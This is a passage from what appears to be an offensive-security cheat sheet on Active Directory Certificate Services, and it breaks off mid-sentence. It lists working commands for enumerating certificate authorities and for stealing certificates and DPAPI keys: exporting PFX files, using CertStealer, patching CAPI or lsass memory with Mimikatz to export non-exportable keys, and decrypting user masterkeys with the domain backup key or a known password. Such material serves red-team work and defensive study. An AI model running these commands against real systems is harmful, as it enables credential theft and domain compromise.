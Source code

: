 Enumerate AD Enterprise CAs with certutil from a domain-joined machine:

```
Cmd > certutil.exe -config - -ping
Cmd > certutil.exe -TCAInfo [-v]
```

## <mark style="color:red;">Hunt for Certificates</mark> <a href="#hunt-for-certificates" id="hunt-for-certificates"></a>

### <mark style="color:orange;">Export Certificates (THEFT1)</mark> <a href="#export-certificates-theft-1" id="export-certificates-theft-1"></a>

Export a certificate from user's context.

With certmgr:

* Run → `certmgr.msc` → Action → All Tasks → Export ...

With PowerShell:

```powershell
 Export-PfxCertificate -Password (Read-Host -AsSecureString -Prompt 'Password') -Cert (Get-Item -Path Cert:\LocalMachine\My\<CERT_THUMBPRINT>) -FilePath cert.pfx -Verbose
```

With [CertStealer](https://github.com/TheWover/CertStealer):

```
Cmd > .\CertStealer.exe -export pfx <CERT_THUMBPRINT>
```

If the private key is non-exportable, use Mimikatz's `crypto::capi` (to patch CAPI in current process) or `crypto::cng` (to patch `lsass.exe` memory):

```
Cmd > .\mimikatz.exe "crypto::capi" "crypto::certificates /export" "exit"
```

### <mark style="color:orange;">DPAPI User Keys (THEFT2)</mark> <a href="#dpapi-user-keys-theft-2" id="dpapi-user-keys-theft-2"></a>

Decrypt a domain user's masterkey with domain's backup key with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /rpc" "exit"
```

Decrypt masterkey if user's plaintext password is known with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /sid:<ACCOUNT_SID> /password:Passw0rd!" "exit"
```

Simplify the process with SharpDPAPI providing it a file with one or more `{GUID}:SHA1` masterkey mappings (will output a `.pem` file):
